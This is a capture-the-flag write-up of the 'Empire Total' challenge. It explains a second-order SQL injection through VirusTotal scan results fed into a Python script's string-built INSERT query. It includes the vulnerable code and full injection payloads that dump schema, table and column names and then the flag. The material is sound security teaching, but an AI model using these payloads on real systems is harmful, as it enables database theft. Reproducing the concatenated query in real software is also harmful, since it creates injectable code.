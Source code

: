 # **Empire Total (1000pts) (7 Solves)**

![TASK](https://imgur.com/rGcoI7o.png)

This task was really so creative and i had so fun solving it , but i can't deny that it was painful :( after reading the description we can say that we aim to dump the database of the website (maybe SQL injection who knows) and fortunately we have the source code so let's download it and begin our trip xD

After Visiting the website we find a tool based on Virus Total API , understanding the functionality of the website is really necessary for solving the task, we will cover it in details later, but as a first thought we give an ip address to the website and it will shows Virus Total stats about it

![TASK](https://imgur.com/k7ScCjX.png)

![TASK](https://imgur.com/bjRXPJT.png)

After cloning the project here is its structure
> git clone https://github.com/mohamedaymenkarmous/virustotal-api-html

![TASK](https://imgur.com/alxzV41.png)

let's take a look at index.php , since the code is really too long i will only put the important parts, as we can see after some configurations and Recaptcha setting, all the SQL queries are prepared statements so there is no way to perform SQL injection but we can notice the execution of the 
**shell_exec** function :D Interesting hmmm 

![TASK](https://imgur.com/A1kiMAa.png)

**shell_exec** is executing some python script with a scanned ip argument ,maybe manipulating it will give us something useful 

```php
$command = "../VirusTotal.py '$scanned_ip'";
$output = shell_exec($command);
```
But unfortunately there's too much restriction on our input :( it's impossible to bypass the filter_var here and the JS restrictions (if you can bpass it just tell me xD )

```php
 if(isset($_POST) && !empty($_POST)){
  $scanned_ip=isset($_POST['ip']) && !empty($_POST['ip'])  && !is_array($_POST['ip']) ? $_POST['ip'] : "";
  if(!$scanned_ip){header("Location: /?invalid_ip");exit();}
  if (filter_var($scanned_ip, FILTER_VALIDATE_IP)) {
  } else {header("Location: /?invalid_ip");exit();}
```
Let's proceed , it seems that the index.php is pretty safe ,let's take a look at the VirusTotal.py script 

![TASK](https://imgur.com/ytcYYQQ.png)

OMG :'( 499 lines , that was so discouraging @Emperors :( but we needed that flag to have the 10th place xD anyway after scrolling around and reading the code , we can somehow understand the behaviour of the website,
when we enter the ip address it asks the Virus Total API for the results and then there's the persistence functionality that saves the results in the database and then when we enter the same ip address again it will loads
the results from the database .

So if we can control the results maybe we will have the opportunity to perform an SQL injection ? I got stuck in this part for a long time and after the help of the admin ( Thank you @Emperors <3 ) i found something interesting :D

before we proceed here's a vulnerable function to SQL injection that saves the results of urls section in the database (line 417 in VirusTotal.py)

```python
  def persistURLs(self,selected_ips,ip_report_filtered):
    attr="detected_urls"
    table_name="vt_scanned_urls_table"
    newAttr=self.AttrSubstitution[attr] if attr in self.AttrSubstitution else attr
    selected_urls=self.findPersistedIP(selected_ips[0]['id'],table_name)
    selected_urls_filtered=[]
    for selected_url in selected_urls:
      selected_urls_filtered.append(selected_url['url'])
    if newAttr in ip_report_filtered:
     for url in ip_report_filtered[newAttr]:
      print(url['URL'])
      if url['URL'] not in selected_urls_filtered:
        try:
          self.CursorRW.execute("INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')")
          self.DBRW.commit()
          self.resetSQL()
        except Exception as e:
          print("INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')")
          print("EXCEPTION: ",e)
          self.resetSQL()
```
## Exploitation ##

So the idea is that if we go to VirusTotal website (https://www.virustotal.com/) and scan a url ,and then go back to our challenge website and scan the url's ip
we will find that the url we scanned in VirusTotal website will appear , it's pretty confusing i know so let's have an example

1. We go to Virus Total website and scan for any url for example :( in my case i launched a web server on my VPS and used it here )

> http://100.26.206.184/?u=Just testing for the writeup :p

![TASK](https://imgur.com/mGOQ1tQ.png)

2. Now we go back to the challenge website and scan the ip address

![TASK](https://i.imgur.com/N7ymSRT.jpg)

Yeeees ! it's appearing in the results so we now have the control over these values in the urls section of the results.

Now here is our scenario , if we look to the vulnerable function **persistURLs** in VirusTotal.py we can notice the injection in this query (line 430)

> INSERT INTO "+table_name+" (ip_id,url,detections,scanned_time) VALUES ('"+str(selected_ips[0]['id'])+"','"+url['URL']+"','"+url['Detections']+"','"+url['Scanned']+"')

We have control over the **url['URL']** parameter (the url we scan in VirusTotal Website) so it's now an SQL injection in INSERT INTO values, but we have some constraints :

1. The url encoding **%20** that will be interpreted with the SQL query so we have to find another way in our payload instead of white spaces which is a well known bypass:  **/\*\*/**
2. The second thing faced me when i was solving the challenge , we can't use **-- -** to equilibrate the SQL query so we will have to find a solution to equilibrate it

In order to test the injection locally i have created this small script that connects to my local DB and executes the same query, you can find it **[HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/Securinets%20Prequals%202k20/Empire%20Total/test.py)** 

Finally I opted to this solution, here is the URL we will scan :
> http://100.26.206.184/?u=',(select/**/1),(select/**/2)),('102','a

The complete SQL query that will be executed is  :
> INSERT INTO detected_urls (ip_id,url,detections,scanned_time) VALUES ('2','100.26.206.184/?u=',(select 1),(select 2)),('102','a','15','yes')

Let's try it now , we first scan it in VirusTotal :

![TASK](https://imgur.com/3L7lmrs.png)

And now let's scan the IP in the challenge website  :

![TASK](https://imgur.com/f2CRd7H.png)

It's fetched successfully, let's scan the ip another time now to check if our injection succeeded or not, we must see 1,2 in the output :

![TASK](https://i.imgur.com/U3SEcaV.jpg)

Bingo ! our injection worked , we only have to dump the entire Database now and repeat the same procedure:

1. Dump DB names :

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,schema_name,0x7c)/**/fRoM/**/information_schema.schemata),(select/**/2)),('102','a

![TASK](https://imgur.com/AJvdMXB.png)

DBName : MySecretDatabase 

2. Dump Tables and Columns :

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,table_name,0x7c)/**/fRoM/**/information_schema.tables),(select/**/2)),('102','a

> http://100.26.206.184/?u=',(select/**/gRoUp_cOncaT(0x7c,column_name,0x7c)/**/fRoM/**/information_schema.columns),(select/**/2)),('103','a

![TASK](https://imgur.com/raYuUmI.png)

**Table Name** : SecretTable & **Column Name** : secret_value

3. And finally let's have our beloved flag :

> http://100.26.206.184/?u=',(select/**/group_concat(0x7c,secret_value,0x7c)/**/fRoM/**/MySecretDatabase.SecretTable),(select/**/2)),('109','a

![TASK](https://imgur.com/FanWbUZ.png)

Yees We did it , **FLAG** : Securinets{EmpireTotal_Pwn3D_fr0m_Th3_0th3r_S1de}

I have really liked the idea of the challenge, it's really creative , i want to thank Securinets technical team for these fun tasks and awesome CTF and of course the author @TheEmperors.

I hope you liked the writeup if you have any questions don't hesitate to contact me **Twitter** : @BelkahlaAhmed1 , finally i can sleep in peace after these 24 hours xd
